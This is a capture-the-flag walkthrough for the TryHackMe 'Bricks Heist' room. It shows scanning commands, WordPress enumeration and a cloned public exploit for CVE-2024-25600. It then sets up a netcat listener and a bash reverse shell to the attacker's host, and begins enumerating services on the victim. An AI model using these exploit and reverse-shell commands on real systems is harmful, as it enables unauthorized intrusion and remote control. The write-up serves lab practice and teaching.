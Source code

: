 # TryHack3M: Bricks Heist

#### Add hostname to host file <a href="#add-hostname-to-host-file" id="add-hostname-to-host-file"></a>

```
echo $VICTIM bricks.thm  >> /etc/hosts
cat /etc/hosts
```

## &#x20;<a href="#scans" id="scans"></a>

## **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## **TCP/443 - HTTPS**

**Kali**

```
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```







<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
wpscan --url https://bricks.thm/ --disable-tls-checks
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT.git
cd CVE-2024-25600-EXPLOIT/
python CVE-2024-25600.py -u https://bricks.thm/
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell <a href="#initial-shell" id="initial-shell"></a>

**Kali**

```
nc -lvnp 1337
```



**Kali(Shell)**

```
bash -c 'exec bash -i >& /dev/tcp/10.10.181.161/1337 0>&1'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
systemctl list-units --type=service --state=running
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
systemctl cat ubuntu.service
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

